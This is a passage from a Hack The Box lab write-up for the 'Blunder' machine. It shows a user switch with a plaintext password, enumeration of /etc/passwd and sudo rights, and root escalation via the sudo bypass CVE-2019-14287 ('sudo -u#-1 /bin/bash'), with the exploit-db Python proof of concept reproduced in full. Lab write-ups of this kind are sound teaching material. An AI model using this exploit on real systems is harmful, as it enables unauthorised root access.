su hugo
Password: Password120

hugo@blunder:/var/www/bludit-3.9.2/bl-content/databases$ cd ~
cd ~
hugo@blunder:~$ cat user.txt
cat user.txt
dcf1f1f3ecde4b372edf165518df8a77
```

Once I got a system shell, I used my standard shell upgrade steps, but it didn't quite work the way I wanted, so I was stuck with a half-functional shell.  Despite this I was able to switch users to `hugo` and collect my `user.txt` proof.  


Hint: trying to upgrade the functionality of a shell by using **`stty raw -echo`** does not work in a shell gained through meterpreter...


## Path to Power \(Gaining Administrator Access\)

### Enumeration as user `hugo`

```text
hugo@blunder:/var/log$ cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-timesync:x:100:102:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
systemd-network:x:101:103:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:102:104:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:106::/nonexistent:/usr/sbin/nologin
syslog:x:104:110::/home/syslog:/usr/sbin/nologin
_apt:x:105:65534::/nonexistent:/usr/sbin/nologin
uuidd:x:106:113::/run/uuidd:/usr/sbin/nologin
tcpdump:x:107:114::/nonexistent:/usr/sbin/nologin
avahi-autoipd:x:108:115:Avahi autoip daemon,,,:/var/lib/avahi-autoipd:/usr/sbin/nologin
usbmux:x:109:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
rtkit:x:110:116:RealtimeKit,,,:/proc:/usr/sbin/nologin
dnsmasq:x:111:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
cups-pk-helper:x:112:119:user for cups-pk-helper service,,,:/home/cups-pk-helper:/usr/sbin/nologin
speech-dispatcher:x:113:29:Speech Dispatcher,,,:/var/run/speech-dispatcher:/bin/false
kernoops:x:114:65534:Kernel Oops Tracking Daemon,,,:/:/usr/sbin/nologin
avahi:x:115:121:Avahi mDNS daemon,,,:/var/run/avahi-daemon:/usr/sbin/nologin
saned:x:116:122::/var/lib/saned:/usr/sbin/nologin
nm-openvpn:x:117:123:NetworkManager OpenVPN,,,:/var/lib/openvpn/chroot:/usr/sbin/nologin
whoopsie:x:118:124::/nonexistent:/bin/false
colord:x:119:125:colord colour management daemon,,,:/var/lib/colord:/usr/sbin/nologin
hplip:x:120:7:HPLIP system user,,,:/var/run/hplip:/bin/false
geoclue:x:121:126::/var/lib/geoclue:/usr/sbin/nologin
pulse:x:122:127:PulseAudio daemon,,,:/var/run/pulse:/usr/sbin/nologin
gnome-initial-setup:x:123:65534::/run/gnome-initial-setup/:/bin/false
gdm:x:124:129:Gnome Display Manager:/var/lib/gdm3:/bin/false
shaun:x:1000:1000:blunder,,,:/home/shaun:/bin/bash
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
hugo:x:1001:1001:Hugo,1337,07,08,09:/home/hugo:/bin/bash
temp:x:1002:1002:,,,:/home/temp:/bin/bash
```

Looking into `/etc/passwd` revealed that there were three users who could login besides root: `hugo`, `shaun`, and `temp`.  I decided to next check the groups of each user to see if one had use groups for privilege escalation.  

```text
hugo@blunder:/var/log$ id shaun
uid=1000(shaun) gid=1000(shaun) groups=1000(shaun),4(adm),24(cdrom),30(dip),46(plugdev),119(lpadmin),130(lxd),131(sambashare)
```

`shaun` had a few interesting sounding groups: `lpadmin` in particular sounded like something to check out.

```text
hugo@blunder:/var/log$ groups temp
temp : temp
```

`temp` only had access to the `temp` group.

```text
hugo@blunder:~$ sudo -l
sudo -l
Password: Password120

Matching Defaults entries for hugo on blunder:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User hugo may run the following commands on blunder:
    (ALL, !root) /bin/bash
```

I also did a privilege check for `hugo` using `sudo -l` and found that this user indeed had `sudo` rights, and some interesting privileges.  I did a search for `sudo (ALL, !root) /bin/bash` and found an exploit on exploit-db which explained a privilege bypass method where I could get around the restriction on running commands as root \(`!root`\) by tricking sudo by giving the user id number `#-1`.

 [https://www.exploit-db.com/exploits/47502](https://www.exploit-db.com/exploits/47502)

> Description : Sudo doesn't check for the existence of the specified user id and executes the with arbitrary user id with the sudo priv -u\#-1 returns as 0 which is root's id and /bin/bash is executed with root permission

```python
# Exploit Title : sudo 1.8.27 - Security Bypass
# Date : 2019-10-15
# Original Author: Joe Vennix
# Exploit Author : Mohin Paramasivam (Shad0wQu35t)
# Version : Sudo <1.2.28
# Tested on Linux
# Credit : Joe Vennix from Apple Information Security found and analyzed the bug
# Fix : The bug is fixed in sudo 1.8.28
# CVE : 2019-14287

'''
Check for the user sudo permissions

sudo -l 

User hacker may run the following commands on kali:
    (ALL, !root) /bin/bash


So user hacker can't run /bin/bash as root (!root)


User hacker sudo privilege in /etc/sudoers

# User privilege specification
root    ALL=(ALL:ALL) ALL

hacker ALL=(ALL,!root) /bin/bash


With ALL specified, user hacker can run the binary /bin/bash as any user

EXPLOIT: 

sudo -u#-1 /bin/bash

Example : 

hacker@kali:~$ sudo -u#-1 /bin/bash
root@kali:/home/hacker# id
uid=0(root) gid=1000(hacker) groups=1000(hacker)
root@kali:/home/hacker#

Description :
Sudo doesn't check for the existence of the specified user id and executes the with arbitrary user id with the sudo priv
-u#-1 returns as 0 which is root's id

and /bin/bash is executed with root permission
Proof of Concept Code :

How to use :
python3 sudo_exploit.py

'''
#!/usr/bin/python3

import os

#Get current username

username = input("Enter current username :")

#check which binary the user can run with sudo

os.system("sudo -l > priv")

os.system("cat priv | grep 'ALL' | cut -d ')' -f 2 > binary")

binary_file = open("binary")

binary= binary_file.read()

#execute sudo exploit

print("Lets hope it works")

os.system("sudo -u#-1 "+ binary)
```

The POC code for the exploit included a basic Python script which could automate running a program as root, but it would be much easier to exploit this manually and get a root shell since it is so simple to execute.

### Getting a shell

```text
hugo@blunder:/dev/shm$ sudo -u#0 /bin/bash
Password: 
Sorry, user hugo is not allowed to execute '/bin/bash' as root on blunder.
hugo@blunder:/dev/shm$ sudo -u#-1 /bin/bash
Password: 
root@blunder:/dev/shm# id shaun
uid=1000(shaun) gid=1000(shaun) groups=1000(shaun),4(adm),24(cdrom),30(dip),46(plugdev),119(lpadmin),130(lxd),131(sambashare)
root@blunder:/dev/shm# id
uid=0(root) gid=1001(hugo) groups=1001(hugo)
root@blunder:/dev/shm# cat /root/root.txt 
e65080f4dddab786a01c78e4df40f5f7
root@blunder:/dev/shm#
```

First I ran `sudo /bin/bash` with user ID `'0'` to test the restriction on running commands as root to see if it could be bypassed by simply giving the ID number for root instead.  This did not work \(as expected\).  

Next I used the invalid user ID number `'-1'` with the same command and compared my old `id` command output to my new effective user permissions.  I was now logged in as `root` and able to collect my proof.


### Root.txt

Thanks to [`egotisticalSW`](https://app.hackthebox.eu/users/94858) for creating this machine with an easy, yet fun new privilege escalation method!  I always love learning new ways to exploit systems that are so simple, yet so elegant.

If you like this content and would like to see more, please consider supporting me through Patreon at [https://www.patreon.com/zweilosec](https://www.patreon.com/zweilosec).

